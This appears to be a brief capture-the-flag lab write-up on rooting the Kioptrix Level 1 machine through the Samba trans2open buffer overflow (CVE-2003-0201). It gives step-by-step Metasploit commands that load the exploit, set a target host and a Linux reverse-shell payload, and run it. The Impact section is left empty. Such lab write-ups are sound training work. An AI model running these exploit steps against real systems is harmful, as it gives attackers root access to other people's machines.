 # Kioptrix L1: Privilege Escalation using Samba Version

## Summary:
Due to the available version of Samba in Kioptrix, an attacker after enumerate this service can escalate root privileges.

## Technical Details:
The available version of Samba found is 2.2.1a is vulnerable to a buffer overflow called **trans2open** according to this **Common Vulnerabilities and Exposure 2003-0201 [(CVE-2003-0201)](https://www.cvedetails.com/cve/CVE-2003-0201/)** 
using arbitraty code -a payload for example- it is possible to obtain root privileges. 

##Steps to reproduce using metasploit and a terminal:
1) msfconsole
2) search trans2open
3) use 1
4) set RHOSTS <ip_of_kioptrixl1>
5) set payload linux/x86/shell_reverse_tcp
6) run

##Supporting Material:
![samba_trans2open_01.png](./media/samba_trans2open_01.png?raw=true "Gaining root Privilege")
![samba_trans2open_02.png](./media/samba_trans2open_02.png?raw=true "Directory Listing")
![samba_trans2open_03.png](./media/samba_trans2open_03.png?raw=true "Accesing to mail server")

##Impact:
